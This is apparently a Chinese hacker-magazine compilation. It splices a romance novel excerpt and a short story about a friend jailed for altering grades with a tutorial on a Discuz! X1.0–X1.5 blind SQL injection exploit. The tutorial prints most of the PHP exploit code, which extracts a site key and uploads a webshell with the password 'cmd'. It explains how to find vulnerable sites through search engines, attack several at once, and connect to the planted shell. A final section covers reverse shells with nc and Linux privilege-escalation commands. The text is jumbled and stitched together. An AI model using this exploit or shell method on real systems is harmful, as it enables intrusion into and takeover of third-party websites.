据说这还是考虑到蔡小青各种联系方式的承载量，也怕万一爆掉了蔡小青的这些联系方式就不好玩了，九尾特意“仁慈”地把每天的骚扰信息降低为各100条，不然那将会是一个更让蔡小青吐血的数字。蔡小青按按太阳穴，似九尾这般勤勤恳恳而且热切敬业的骚扰者，不去当网络水军真是太可惜了，以她的水准，她绝对会是秒杀所有人、hold住全场的网络水军女王啊。

吐槽归吐槽，面对九尾这般来势汹汹的骚扰，蔡小青撑了半个月，已经忍不住有些疲劳了。不过倒是也多亏九尾这阵子不断地骚扰，才让蔡小青忙得无暇去回顾穿越《神雕侠侣》里的那一段各种苦逼都不知道算不算是爱情的感情。

要怎么说呢，蔡小青觉得那个世界的自己像是自己，又不像是自己，具体要说清楚这种感觉却又不太好描述，譬如每次的选择都如同一个十字路口，自己明明是想往左的，但是心底会有一个声音告诉她该往右，于是她就会百般踌躇，摇摆不定。

就如同她对杨过的感情，自己明明是很喜欢杨过的，但是却总是碍于程英的身份各种隐忍，也碍于小龙女的存在而各种犹豫，所以除了那一曲“诀绝”和那一句“既见君子，云胡不喜”，恐怕真没有能让杨过觉察到自己喜欢她的地方了。

蔡小青有时候想过了，如果自己当初决绝一点勇敢一点，在十三四岁的年纪就去寻找杨过，出现在小龙女和杨过相遇之前，她是不是就可以大胆地去爱了。可是没有遇见过小龙女的杨过，还会是她蔡小青心心念念的杨过么？

这个悖论一般的命题着实是让蔡小青很苦恼，所以她就只能一直按着程英的人生轨迹走，慢慢地在那个世界熬着日子，数着岁月光阴，只盼来与那个人不足三天的相遇相守，然后便是生死离别、陌路天涯。

细细想来，自己喜欢的其实就真的是爱着小龙女的杨过，这个前提条件是必需的，不然他就不再是杨过，而她亦不可能这么痴迷。早点领悟这一点的话，那这场寻情穿越之旅倒是真的不必了。

不过凡事有总基于无，这次的“穿越神雕侠侣之我是程英”活动总算还是有那么一点作用的，那就是——催开了蔡大小姐一直紧锁的比金石还坚固的情窦，蔡小青见证过那段穿越的时光之后，稍微有那么一点明白什么是感情了，这跟之前的一片空白、荒芜沙漠一般的感觉是完全不一样的。

恋爱是一门学问，如果这么比方的话，那穿越之前的蔡小青可能是连连不及格的差生，而现在的她好歹能在及格线上徘徊了，虽然看起来进步甚微，但对于蔡小青，改变却是显著的。

比如今天最好的闺蜜跟她说要离婚了，换做之前的蔡小青，一定会先大骂一顿闺蜜老公，再好好地劝闺蜜再想想，坚持劝和不劝离，而如今，她却只会淡淡地说一句：“不合适的话就散了吧，前面一定会有更好的在等着你”。

感情这回事是如人饮水，冷暖自知的。这世界上与其将男人划分成好男人和坏男人，不如将男人划分成“我爱的”和“我不爱的”，或者“爱我的”和“不爱我的”，或者“适合我的”和“不适合我的”。

这也是蔡小青从上次穿越得来的深刻心得体会，杨过是个好男人，只是不适合她而已。想得这般通透，蔡小青忽然觉得自己离现代新女性的十大标准又接近了一大步——“上得厅堂，下得厨房，写得代码，查得异常，杀得木马，翻得围墙，开得起好车，买得起新房，斗得过二奶，打得过流氓。”

除了“开得起好车，买得起新房”这两条在这个房价比天高的城市不敢去想以外，其余的八条，蔡小青自诩是差不多都符合的，可是这样的自己居然就这么剩下来了。可能真的是自个儿投胎的时候手贱，选了困难模式，结果就到天朝来了，落到如此地步吧。

内心忽然充满了焦躁莫名的情绪，蔡小青赶紧闷头喝了一口浓咖啡定定神，茶杯刚放下来，就看见“王祖贤”大美人正浅笑盈盈地坐在她对面，化了淡妆，穿着条葡萄紫的LV晚装裙子，低胸，裙身似鱼尾一般自细腰勾勒出美好的身段，美得整个人发亮。

在心底大大地惊艳了一番，蔡小青正蹙着眉不知道怎么应对这个麻烦的美人时，九尾却伸出纤细的手指轻轻放在蔡小青唇上，示意她先不要说话。

“当你老了，头白了，睡意昏沉，炉火旁打盹，请取下这部诗歌，慢慢读，回想你过去眼神的柔和，回想它们昔日浓重的阴影；多少人爱你青春欢畅的时辰，爱慕你的美丽，假意或真心，只有一个人爱你那朝圣者的灵魂，爱你衰老了的脸上痛苦的皱纹；垂下头来，在红光闪耀的炉子旁，凄然地轻轻诉说那爱情的消逝，在头顶的山上它缓缓踱着步子，在一群星星中间隐藏着脸庞。”

九尾并不急着对她说话，却缓缓地低吟着这首小诗，声音婉转而低沉，比黄鹂的歌声清脆，比微风的响声醇厚，比誓言的声音轻快，蔡小青心底仿佛涌出一股清泉，刚刚还烦躁不安的心顿时安宁平和了。

“这个是叶芝的《当你老了》，我吟咏的技巧可称是当世无双，为了催动你的情丝，便宜你让你白听啦。要知道当初在青丘，有多少神仙妖怪求着我给他们吟咏诗歌，我都不屑一顾呢。”

蔡小青正自沉浸在诗歌美丽的意蕴里，特别是那一句“只有一个人爱你那朝圣者的灵魂，爱你衰老了的脸上痛苦的皱纹”，真的是让她的灵魂产生共鸣一般的战栗，直到被九尾骄傲而得瑟的炫耀拉回了残酷的现实。

“九尾小姐你今天很漂亮，吟咏的诗歌跟你本人一样动人，”九尾听得蔡小青的夸奖，正欲得意一番，却被后面一句话扑灭了热情——

“可是我已经下班了，现在起属于私人空间，即使你身为妖怪，也请尊重我作为人的隐私权。”

“不要这样啦，人家可是特意从米兰时装节上赶回来，连最新款的包包都没来得及搜购，就来帮助你达成心愿了，不领情就算了，也不至于这么冷冰冰的吧。”九尾却是永远不知道何为闷怒一般，总是这样笑嘻嘻地面对着蔡小青恶劣的态度，让被她骚扰得烦透了的蔡小青心里都忍不住有丝愧疚，觉得自己这样对她是不是太过分了。

“可是，我自己是真的不知道这心愿该如何去完成了啊……我也不是故意拖着你的……”蔡小青深深地叹了口气，一脸的无奈之情。

“耶？不知道心愿怎么完成？不就是找个男人么，有这么难么？想当初我族妲己姐姐艳压全国，不知道多少男人拜倒在她的石榴裙之下，虽然我的法力比妲己姐姐差那么一点点，但是帮你迷惑个男人来爱你是足够啦……”九尾狐撩起一缕黑发，轻笑道。

“不！我要的不是被迷惑的男人啊，你不懂的……就像你刚念的诗那样，我想要的就是那种真心实意相守到老的男人，不要这么随随便便给我个残次品来凑合了事啊！！！”蔡小青固执地反驳道。

九尾狐撇撇嘴，“你们人类是越来越麻烦了，以前救助书生的时候，他们的要求都好简单的，要么是要功名，要么是要金银，要么就是要美女，可轮到你，却是这么多事儿，对于内在的要求这么多，”说到这里，九尾狐的脸色微微一沉，眼神迷离起来，“人类啊，要知道，最不好控制的就是人心了，即使我的法术通天，也无法保证能给你变个真心的男人出来，这也是造物主的法则，我是无法违背的。所以，男人这种东西，还是得你自己去找寻啊……”

蔡小青第一次看到九尾如此严肃而正经的脸，惊奇昔日如九尾竟是也有这般深刻的表情，莫非真的是自己这次太过分了。蔡小青是标准的白羊座女生，爆裂如火，直爽如山，藏不住心里对九尾的愧疚，正准备跟九尾道歉，然后认真思索一下下次穿越的地方。

结果这种情绪一流露在脸上，就看到九尾狭长的凤眼里闪着坏坏的光芒和嘴角已经憋不住的笑容，“你们人类真好骗，果然深沉范儿最能骗人——”

“……哈哈哈哈哈，被我骗了吧……”

“你太过分了！”蔡小青瞪了一眼狂笑失态的九尾，愤怒地抓起包，跑出了办公室。

独自等公交的时候，路边的咖啡厅还在营业，隐约传来一首英文歌，仔细听听，是《you are not alone》。“First I need your hand Then forever can begin……”翻来覆去一直在低低地重复这一句。

蔡小青闭着眼听了一阵，直到踏上公交车才意识到那句的中文意思，意境很美——“先得执子之手，方能偕老白头。”放这首歌的人也寂寞么？也在为情所苦么？

她蓦然想起很多，细细碎碎却又模糊的片段，认真想却是又不太记得了，只是隐约记得关于青春，关于偕老。可是“偕老白头”这个太虚幻，蔡小青的要求其实一直很简单，只求牵那只手的时间可以早点，可以长一点，别的却是再不敢奢求了，即使这般，仍是奢望。

在公交上摇摇晃晃地颠簸着，包里的手机忽然大声叫嚷起来，在没有什么人的车厢里显得格外热闹。

蔡小青看着陌生的号码，犹疑了一阵接起来，“你好，你是谁？”蔡小青礼貌地问道。

只听得电话对面轻轻的咳声和显得紧张局促的呼吸声，却是无人答话，蔡小青又轻轻问了句：“你是谁？请说话。”电话却就此挂断，再打过去，已是无人接听。

“怪人。”蔡小青嘀咕了一句，倚在车窗上，继续看外面那灯红酒绿、夜夜笙歌的不夜城，满城的霓虹灯越发看不清了，只是觉得炫得她眼睛都痛了，也衬得她的孤单格外落寞可耻。

这样的人生可真无聊啊。忽然想起《银魂》里那句“仔细想想人生是要变成大叔之后才觉得漫长可怕啊”，蔡小青不禁失笑，自己也是在快变成大妈的年纪里，才开始觉得人生漫长得可怕，无聊得要死的么。

> "I was so green, nothing could touch me. I'm not saying that this is good or bad, I'm not saying that I want to go. The salty seas behind the eye and it's the tears that come and make me cry."

耳边模糊地响起Devics的《salty seas》，这一片悲伤的深海吞噬了蔡小青清醒的意识，一点点的寂寞，一点点的企盼悄然浮上心头。

“真的好想谈场恋爱啊！”

蔡小青，性别女，年龄二十七岁，于一个寂静的夜里，终于真心地喊出了这一句恋爱宣言。


### 三个人的青梅竹马

### S.A.芙蓉

苏小牧坐在我的单车上舔着冰淇淋哼着歌，我边骑车边埋怨着她又胖了，苏小牧指指在一旁呼哧呼哧骑车的狗蛋说：“要不我骑他的车子，让他坐你后面？”我看看体形已经接近球体的狗蛋，连忙摇头。

苏小牧和狗蛋是我从小一起长大的朋友，我们住在同一个家属楼里，狗蛋家住一楼，我家和苏小牧家在二楼。也许就是因为这个缘故吧，苏小牧从小就缠着我不放，我走到哪里她都在后面跟着。

上小学和初中时，我们三个人一起走着去上学，狗蛋和我并肩，苏小牧跟在我后面。那时的狗蛋就是我们班里最胖的，每天都跟一个长得跟狗熊似的生物一起去上学，觉得很有安全感，从来没有小混混敢拦住我们跟我们要钱。

到了高中，我们要骑自行车去上学了，于是三方家长一起去给我们买了自行车，可是苏小牧就是不骑，偏让我载她去上学，我说我不，可是每天我去上学时她都会听到我家的开门声，然后我的自行车后座上就会多出一个苏小牧。就这样，整个高中我的车子后面总是坐着一个舔着冰淇淋的她。

苏小牧长得并不是倾国倾城，但还算可以。她喜欢听歌，喜欢边看书边嚼奶茶。她喜欢玩CF，每次她爸妈不在家时我都会听到她家里传出“Fire the hole”的声音。话说苏小牧玩CF很是厉害，有一次狗蛋跟她玩，经常是还没有看到她就被打死了，战后苏小牧一脸骄傲地说：“姐不是好惹的！”从此，狗蛋再也不敢跟苏小牧玩CF了，而每当苏小牧跟狗蛋起了争执时她都会说：“你小子有种跟我打CF！”

苏小牧不喜欢运动，但喜欢看足球，当年世界杯时跟我一起熬夜看球，看到巴西队意外出局时还跟我一起惋惜。每天下午放学后我和狗蛋都会在操场踢一会儿足球，她会坐在场边静静地观看，然后坐在我的车子后面跟我们一起回家。从小家里人都说，苏小牧是林子枫的小尾巴，走到哪跟到哪。

有了这个小尾巴还真多了不少麻烦，总有老师认为我俩是早恋，为此双方家长不得不多次出面跟老师们澄清，就连同学们也会有误会的。

有一天，我们班头号美女许佳在QQ上问我：“林子枫，苏小牧是不是你的女朋友？”

我说：“不是。”

“那她为什么天天跟着你？”

“我怎么知道？她从小就跟着我，赶都赶不走。”

“那狗蛋呢？”

“这么说吧，我们三个是青梅竹马。”

“哪里有三个人是青梅竹马的？”

……

#### 二

也许吧，最难熬的日子也是最快乐的日子。当高三生活变成了我们永远的回忆时，我们才发现原来那段日子是那么美好，曾经爱过的与恨过的，嫉妒的与羡慕的，痛苦的与快乐的，都随着高考的结束而落下了帷幕，留给我们的只是关于那些日子里的些许回忆，还有我们成长的印记。

高考完的第二天，我们三个又去了学校，那时我们的教室因为没人上课已经锁上了门，我们只得从窗外往教室里看，那些桌子的摆放依然没变，在教室后面的黑板上还有我们班在高考一百天时写下的誓言。苏小牧指了指里面，说：“看，那是我的课桌，上面有我的汗水，有我奋斗的痕迹。”听苏小牧说这句话时我心里突然有一种很惆怅的感觉，高三的那些美好回忆随着高考的结束都被尘封在了这个教室里，而明年，这个教室里又会尘封下别人的回忆……

在高三毕业后大家都还在等待公布成绩的那段时间里，我们班里办了个同学聚会，那天大家把高三时一直压抑的心情都发泄了出来，有人唱歌，有人喝酒，有人吹牛……我和狗蛋就坐在吧台边喝着酒边扯着闲篇，而苏小牧就坐在我们旁边拿着手机玩游戏。后来有些醉意的许佳走到我面前，说要告诉我一件事，于是就凑到我耳边，轻轻地说：“做我男朋友吧！”还没等我反应过来就在我脸上亲了一口，我的心脏立马“突突突”地跳个不停，慌乱中我看到狗蛋愣住了，苏小牧愣住了，全班同学都愣住了……在短暂的沉默后，紧接着爆发了起哄的欢呼声，我在大家的欢呼声中开心地笑了，可是在我转身看向狗蛋与苏小牧时却发现他俩仍愣在那里……

我知道，狗蛋一直暗恋许佳，但我依然做了许佳的男朋友，对于这样一个美女我不知道该如何拒绝。狗蛋并没有因此而跟我生气，他只是不再跟我谈论关于许佳的事情了。

暑假中我经常跟许佳在一起，狗蛋则在家里钻研他的黑客技术，而苏小牧，自从那天聚会过后我就告诉她，不许再天天跟着我了，毕竟我们中间多了一个许佳，所以每次她到我家找我出去玩时我都会推脱说我有事要忙，然后她一脸沮丧地回家玩起了CF。

#### 三

很快，我们上大学了，苏小牧跟狗蛋报了同一个学校，而我跟许佳在同一个学校，我们这两所学校相邻，所以我经常去找狗蛋。

狗蛋依旧在研究黑客技术，不得不说他很有天赋，很多杂志上都刊登过他的技术性文章，并不像我一样在黑客杂志上写一些与黑客稍微沾边的小说。

我从没有去找过苏小牧，有时我去找狗蛋时会遇见她，她依然是那个长发飘飘，总是舔着冰淇淋的女生，但每次遇见了都不知道该说些什么，感觉陌生了好多。

开学后，许佳就进了学生会，每天都很忙碌，我给她打电话她都说很忙就匆匆挂掉。后来，她跟学生会主席好上了，在学生会的职位也一升再升。

对于许佳的离开我并没有太多的悲伤，只是找狗蛋在外面喝了好长时间的酒。席间，稍有醉意的狗蛋对我说：“苏小牧有男朋友了。”我没理他，继续喝我的酒。

之后的日子里我也开始忙碌起来，球赛一场接着一场，我也渐渐从许佳的阴影中走了出来。只有在球场上踢球时，我才可以忘掉所有的烦恼，只想着要打败对方。带球，过人，射门，在足球的世界里的我才是真正的我。

狗蛋时不时地会拿着稿费来学校找我喝酒。每次喝酒他都会告诉我关于苏小牧的一些事情，我从来没有搭过话，只是喝酒，然后跟他吹牛，告诉他我今天进了多少个球，他告诉我自己又发现了什么漏洞……

狗蛋很少去上课，总是躲在宿舍里研究黑客技术。我说狗蛋你也应该去听听课，要不然非得挂科。于是他去上课了，可是从来没有带课本去，带着的只是他的黑客杂志。

我说：“狗蛋你这样上课怎么行？会挂科的，挂得多了就退学了。”狗蛋嘿嘿笑着说：“没事，我准能过。”这小子，没有课本，没有笔记，甚至没有听课，但他却一直有一颗不挂科的心……

最后，到年终考试了，狗蛋竟然真的没有挂科，这让我又惊讶又佩服。

后来我听说许佳当上了学生会主席，整天一副唯我独尊的样子，骄傲得简直不可一世。学生会的小男生经常在她后面跟着，大家都猜测她要跟大一的好上了。可是有一个秋日的晚上，我在校门口见到她坐到了一个宝马车里，刚一上车，开车的那个五十岁老男人就迫不及待地在她脸上亲了一口。我心里一阵恶心，就看着她一脸得意地坐着车走了。

其实那些日子很是惬意，没有烦恼，没有需要牵挂的人，日子如果一直这么持续下去该多好。可是，世事难料，我只能这么说。

那天是一个星期天的傍晚，我们刚刚开始一场比赛。正在赛场上尽情奔跑的我看到一个犹如大黑熊的不明生物向我扑来，还没等我反应过来，他就一把抓住我，拉着我往外跑，边跑边对我吼：“快跟我走，苏小牧出车祸了！”那吼声中充满了焦急与惶恐，直到今天我还记忆犹新。

#### 四

苏小牧出车祸了，就倒在我们两个学校之间的路上。是一个酒后驾驶的富二代撞到了正走在斑马线上的她，在救护车赶到时就已经停止了呼吸。苏小牧的父母赶到了现场，哭得撕心裂肺，狗蛋在旁边不住地劝慰，而我则呆呆地站在那里，泪水模糊了视线……

那一刻，我清楚地感觉到心里无比的痛，我无法接受那个我从小就想甩掉的小尾巴就这么走了。尽管我们已经很长时间没联系了，但就如同一匹狼，一只狐狸或者一条狗，虽然很少关心自己的尾巴，可一旦有一天尾巴受伤了，那也是钻心的痛。

那晚，酒店里又出现了我和狗蛋的身影，狗蛋边哭边对我说：“子枫，你知道苏小牧为什么会在那条路上出事吗？”还没等我回答，他接着说：“因为她要去你们学校看你的足球比赛！”

狗蛋看着愣在一旁的我，拿下我的酒杯，接着说：“在高中的时候，你的每场球赛她都会去看，到了大学，她也都会去看。她总对我说，她喜欢看在足球场上一脸王者霸气的你。她也经常对我说，你从来没有注意到坐在人群里的她。子枫，难道你不知道吗？苏小牧其实从小就喜欢上你了，只是她不好意思告诉你，也不让我说。从小到大，她的心里只有你，那次你跟许佳好上了，她哭了好久。知道高考成绩后，她本来想跟你报同一个学校，可是每次她去你家找你你都说很忙，于是她一气之下就跟我报了同一个学校，虽然咱们俩学校离得挺近，但也不用天天见到你跟许佳作伴了。她本来以为你会经常来找她，可是你从来没有，你以为你来找我时经常会遇到她这都是偶然吗？其实是她让我每次都用短信通知她你来了。她只有一个目的，就是想跟你说说话。后来听说你跟许佳分手了，她又高兴又难过，她高兴的是你们分手了，难过是因为你那一阵子挺消沉的，所以她让我经……”常请你去吃饭，这样也可以陪你散散心。是她让我告诉你，她有男朋友了，其实她并没有，这只不过是想看看你有什么反应。可是你那天却没有任何反应，你那样的冷漠让我都心寒。说真的，有时候我真想揍你一顿。现在，苏小牧不在了，可是我想着替她问问你，你心里到底有没有她。”

我没有理会狗蛋，拿起酒瓶，一饮而尽。我的脑海里全是坐在我车子后面、舔着冰淇淋、哼着歌的苏小牧……

其实，当我看到躺在地上的苏小牧时，我就知道原来我早就喜欢上了这个小尾巴，只是一直不敢承认。我总告诉自己那种感觉只是友情，无关爱情，可是到头来却是既欺骗了自己，也伤害了她。

#### 五

那次是我和狗蛋最后一次在学校喝酒，因为从那过后没几天，狗蛋就被带到了公安局。他入侵了他们学校的教务系统，更改了他的成绩，这就解释了为什么他不用功学习却从不挂科。如果只是单纯地更改自己的成绩那还没什么；重要的是他还帮助其他同学更改成绩从而获取利益。因为这样，他就被抓了起来，判了刑，进了监狱……

狗蛋的父母来学校收拾他的东西时我也去帮忙，我们在他的宿舍里看到了一本本书角卷起的黑客杂志和一本本崭新的课本。那天，他的父母一声不吭地带走了他在大学所留下的最后的东西。

后来的日子里，我习惯了踢球的时候看看场外的观众席，习惯了去买狗蛋总是看的那种黑客杂志，只是希望能看到坐在场边的苏小牧，只是希望狗蛋出来时能看到这几年错过的杂志。

我经常会梦到长发飘飘的苏小牧和一脸横肉的狗蛋，每当梦到就会贪婪地不想醒来。如果时光可以倒转该多好，如果许佳没有出现，而我也没有接受那份原本就不属于我的爱情，那么这一切的一切，也许就不会再发生，也许苏小牧还会坐在我的车子上边舔着冰淇淋边哼着歌，我和狗蛋还会边骑着车边吹着牛……

## Discuz! X1.0-X1.5盲注漏洞 & Get Shell Exp.

在刚过去今年六一儿童节的6月2日，有人公布了一个重量级的漏洞：Discuz! X1.0-X1.5 的盲注漏洞，而且有牛人公布了一个直接 Get Shell 的 EXP。利用此 EXP 可以直接获得 Shell，连进后台上传什么的都省了。关于这个漏洞的详细分析暂时没有找到，只知道是 notify_credit.php 出现了盲注漏洞，受影响的版本为 Discuz! X1.0-X1.5，漏洞的发现者是 toby57，Alibaba 对 EXP 进行了后续修改并添加了 Get Shell 代码。我用的就是 Alibaba 修改过的 Exp，完整代码如下：

```php
<?php
print_r('...');
// Discuz! X1-1.5 notify_credit.php Blind SQL injection exploit by toby57
// modified by alibaba (adds getshell logic)
if ($argc < 2) {
  print_r("Usage: php {$argv[0]} url [pre]\n");
  exit;
}
error_reporting(2);
ini_set('max_execution_time', 0);
$url = $argv[1];
$pre = $argv[2] ? $argv[2] : 'pre_';
$target = parse_url($url);
extract($target);
$path1 = $path . '/api/trade/notify_credit.php';
$hash = array();
$hash = array_merge($hash, range(48,57));
$hash = array_merge($hash, range(97,122));
// ...
```

```php
$res = send();
if (strpos($res, 'SQL syntax') == false) {
  preg_match('/FROM\s([a-zA-Z_]+)forum_order/', $res, $match);
  if ($match[1]) $pre = $match[1];
  $tmp_exp_str = "' UNION ALL SELECT ... FROM {$pre}common_setting WHERE ...";
}

$res = send();
if (strpos($res, 'doesn\'t exist') !== false) {
  echo "Table pre is WRONG\nReady to Crack It, Please Waiting...\n";
  for($i=1;$i<20;$i++) {
    $tmp_exp_str = "' UNION ALL SELECT ... FROM information_schema.columns WHERE table_schema=database() AND table_name LIKE '%forum_post_tableid%' ...";
    $res = send();
  }
}

$hash2 = array();
$hash2 = array_merge($hash2, range(48,57));
$hash2 = array_merge($hash2, range(97,122));
$hash2[] = 95;
for ($j = 1; $j <= $i; $j++) {
  for ($k = 0; $k <= 255; $k++) {
    if (in_array($k, $hash2)) {
      $char = dechex($k);
      $tmp_exp_str = "' UNION ALL SELECT ... MID(REPLACE(table_name,'forum_post_tableid',''),$j,1)=0x{$char} ...";
      $res = send();
      if (strpos($res,'SQL syntax') == false) echo chr($k);
    }
  }
}
```

## 一个人的战争

```php
$pre = chr($k);break;
...
if(strlen($pre)){echo "\nCracked ...Table Pre: $pre\n";break;}else{die('GET Table pre Failed...');}
...
echo "Please Waiting...\n";
$sitekey = '';
for($i = 1;$i <= 32; $i++){
    for ($k = 0; $k <= 255; $k++) {
        if(in_array($k, $hash)) {
            $char = dechex($k);
            $tmp_expstr = " ... UNION ALL SELECT ... FROM {$pre}common_setting WHERE skey=0x... AND MID($value,{$i},1)=0x{$char} AND ...";
            $res = send();
            if(strpos($res,'SQL syntax')!==false){
                echo chr($k);
                $sitekey .= chr($k);break;
            }
        }
    }
}
/*
By alibaba

修改与添加了一些代码，如果成功就能得到shell

一句话密钥是：cmd
*/
if(strlen($sitekey)!=32){
    echo "\nmy_sitekey not found, try blank my_sitekey\n";
}else echo "\nmy_sitekey={$sitekey}\n";

echo "\nUploading Shell...";
$module='video';
$method='authauth';
$params='...';
$sign = md5($module . '|' . $method . '|' . $params . '|' . $sitekey);
$data = "module=$module&method=$method&params=$params&sign=$sign";
```

```php
$path2 = $path . "/api/nanyou/my.php";
POST($host,80,$path2,$data,30);

echo "\nGetting Shell Location...\n";
$file = '';
for($i = 1;$i <= 32; $i++){
    for ($k = 0; $k <= 255; $k++) {
        if(in_array($k,$hash)) {
            $char = dechex($k);
            $tmp_expstr = " ... UNION ALL SELECT ... FROM {$pre}common_member_field_home WHERE uid=1 AND MID(videophoto,{$i},1)=0x{$char} AND ...";
            $res = send();
            if(strpos($res,'SQL syntax')!==false){
                echo chr($k);
                $file .= chr($k);break;
            }
        }
    }
}
echo "\nShell : $host$path/data/avatar/" . substr($file,0,1) . "/" . substr($file,1,1) . "/$file.php";
exit;

function sign($exp_str){
    return md5("attach-tenpay&mch_vno={$exp_str}&retcode=0&key=");
}

function send(){
    global $host, $path1, $tmp_expstr;
    $expdata = 'attach=tenpay&retcode=0&trade_no=%2527&mch_vno=' . urlencode(urlencode($tmp_expstr)) . '&sign=' . sign($tmp_expstr);
    return POST($host,80,$path1,$expdata,30);
}

function POST($host,$port,$path,$data,$timeout,$cookie=''){
    $buffer='';
    $fp = fsockopen($host,$port,$errno,$errstr,$timeout);
    if(!$fp) die($host.':'.$path...);
}
```


可以看到 Exp 的利用格式为 `php exp.php url [pre]`，也就是 `php exp.php` 加存在漏洞网站地址及前缀。文中说明 Discuz! X1.0~X1.5 版本相关漏洞利用思路，并讨论通过搜索关键词筛选可能站点、避免热门关键词竞争、提高可用目标命中率等实践经验。

通过 Exp 代码中的 “Discuz! X1-1.5 notify_credit.php Blind SQL injection exploit by toby57 2010.11.05” 可知漏洞发现时间较早。作者随后说明将 Get Shell 的 Exp 代码保存为 `exp.php`，在本地 PHP 环境（如 AppServ）中运行，进入对应目录后使用 `php exp.php` 查看说明并执行。

通过搜索得到目标站点后，输入命令（如 `php exp.php http://www.xxxg.com.cn/`）进行测试，逐步获取 `my_sitekey` 等信息（见图2）。


图2


图1


图3

由于是盲注，猜的可能比较慢，my_sitekey 共有32位，猜完后提示“Uploading Shell... Getting Shell Location...”，也就是开始上传 shell，然后一位一位地猜 shell 地址中的一部分，如图3。Exp 运行完的结果如图4，直接给出了上传后 shell 的地址：www.xxxg.com.cn//data/avatar/c/e/cebdd792bb0c90861553069867c6986f.php。


图4

这个 Exp 很强大吧，以前的很多 Exp 都是得到管理员的用户名和密码（密码还不一定能破解出来），然后你需要进后台再找获得 shell 的方法，而这个 Exp 直接上传 shell，还给出你 shell 上传后的地址，真是太人性化了 =。=


图5

注意，用这个 Exp 获得的 shell 的连接密码为 cmd。

用 lanker 一句话 PHP 后门客户端 3.0 连接 www.xxxg.com.cn//data/avatar/c/e/cebdd792bb0c90861553069867c6986f.php，写上密码 cmd，成功获得 shell，如图8。看起来还是台 Linux 服务器，提权不是本文要讲的东西，略过。

如果测试的网站不存在这个漏洞，会提示“I can NOT hack it.”，如图6。

你也可能遇到这样的情况：一个站存在这个漏洞，能猜 my_sitekey，但猜的过程中 Exp 运行中断，然后提示“Warning: fsockopen(): unable to connect to www.xxx.net:80（由于连接方在一段时间后没有正确答复或连接的主机没有反应，连接尝试失败。）”，如图7。这时候重新运行一遍 Exp 可能就能猜完了。如果提示“Table_pre is WRONG!”说明不是默认的表前缀，Exp 会尝试破解表前缀，然后猜 my_sitekey 再上传 shell，一切操作都是自动完成。

由于盲注比较慢、比较费时间，你可以在猜这个网站的时候多开几个 cmd 窗口对其他的站进行尝试，如图8。


图6


图7


图8

经过我的实际测试，网上存在这个漏洞的网站还是很多的，Discuz! X1.0-X1.5 网站目前存在这个漏洞的几率也比较高。

今天 Discuz! X1.0-X1.5 盲注漏洞就简单给大家介绍到这里，我会把本文用到的 exp.php 打包给大家。整篇稿子没什么技术含量，就是一个漏洞的利用过程，写给新手看的，大家莫笑。另外我写本文的目的仅出于兴趣爱好，兔子们不要用本文介绍的方法进行破坏，否则造成的任何后果与作者无关。我建议只测试能否拿 shell，不修改，不破坏。

## Linux下提权常用小命令

有些新手朋友在拿到一个 webshell 后，如果看到服务器是 Linux 或 Unix 操作系统就直接放弃提权，认为 Linux 或 Unix 下的提权很难，不是我等小菜能做的。其实 Linux 下的提权并没有很多人想象的那么难，你真去尝试做了，也许你就会发现 Linux 下的提权并不难，尤其是一些简单的提权方法是很容易学会的。Linux 下的提权，我知道的比较简单的方法都是在命令行下完成的，很多新手又可能根本没接触过 Linux 下的一些常用命令，今天就给大家介绍一些 Linux 下提权过程中常用到的 Linux 命令。由于我也是刚学了几个 Linux 命令，介绍得不对或不全的还请大家多多指正和谅解。

对我等小菜来说，在 Linux 下的提权最简单也是最有效的方法就是通过本地溢出漏洞提权。找到合适的漏洞利用程序，在命令行下运行一下就完成了提权。

由于 Linux 下的提权大多是在命令行下进行的，因此要提权首先要得到一个执行命令的地方。我们最先得到的是一个 webshell，比如 PhpSpy 2008。尽管很多 Webshell 提供了在 Linux 下执行命令的功能，但往往只能执行一些不需要交互的命令，因此我们首先要得到一个可执行交互命令的窗口，用到的方法是反弹 shell 到本地。PhpSpy 自带了这个功能，名为“Back Connect”，如图1。


要想反弹回 shell，你需要一台有公网 IP 的电脑（当然了，只有内网 IP 的电脑做了端口映射也可以），然后在你要反弹回来的电脑上首先用 nc 来监听要反弹回来的端口。如果要反弹回来的端口为 12345，就执行 `nc -vv -l -p 12345` 来监听 12345 端口，如图2。


然后回到 PhpSpy 中的“Back Connect”，在“Your IP”后面自动识别出你当前电脑的公网 IP。如果要反弹到别的电脑上，请输入要反弹电脑的 IP。我这里要反弹到本机，就不需要修改了；“You Port”是你要反弹电脑上正在监听的端口，默认为 12345，知道我上面为什么在本机监听 12345 端口了吧，就是在这里不需要修改“You Port”了。当然，你也可以在本地监听 123456 端口，然后把“You Port”也修改成对应的 123456 端口就行了。点“Start”按钮进行反弹，过一会儿本机的监听窗口看到类似图3的信息就说明反弹成功了，得到了一个可执行交互命令的窗口。

执行命令的效果和在 Ubuntu 的终端中执行命令的效果几乎完全相同，所以我在 Ubuntu 10.10 的终端中执行常用的提权中用到的命令来给大家演示，如图4。


在反弹回来的权限较低的 shell 的命令窗口中有权限执行的命令有：

- `uname`
- `pwd`

输出一组系统信息。如果不跟随选项，则视为只附加 `-s` 选项。常跟的参数有 `-a`，在我的 Ubuntu 10.10 的终端中执行 `uname -a` 命令后显示如图5，其中最前面的 Linux 表示是基于 Linux 内核的，2.6.35-28 是具体的内核版本号。这个内核版本号非常重要，因为如果是采用溢出漏洞提权的话，内核版本号是寻找溢出漏洞利用程序最重要的参考信息，根据当前的内核版本号寻找适用于这个版本号的漏洞利用程序。


获得当前目录，在用 webshell 上传漏洞利用程序前执行一下 `pwd` 命令获得当前目录，把漏洞利用程序直接上传到当前目录，在执行漏洞利用程序时就可以免去输入目录的麻烦。执行 `pwd` 命令后显示 `/home/test`，说明当前目录为 /

## 一个人的战争

home/test/，如图6。

另外，通过 webshell 比如 PhpSpy 的“Back Connect”反弹回来的 shell 默认的当前目录为 webshell 所在的目录。


#### 3. ifconfig

显示网络配置信息，比如显示有哪些网卡、每块网卡的配置信息（IP 地址、MAC 地址、子网掩码）等，常用参数 `-a`。

执行 `ifconfig -a` 命令后显示如图7。从信息可以知道，当前系统共有一块网卡 eth0，IP 地址为 192.168.19.138，子网掩码为 255.255.255.0：


#### 4. netstat

显示当前的网络连接状态，与 Windows 系统下的 netstat 命令写法相同，功能也差不多。

执行 netstat 后显示了很多网络连接的信息，如图8。

#### 5. ps

ps 是用来报告程序执行状况的指令，你可以搭配 kill 指令随时中断、删除不必要的程序。常用的参数有 a、u、x。

- a：显示现行终端机下的所有程序，包括其他用户的程序。
- u：以用户为主的格式来显示程序状况。
- x：显示所有程序，不以终端机来区分。

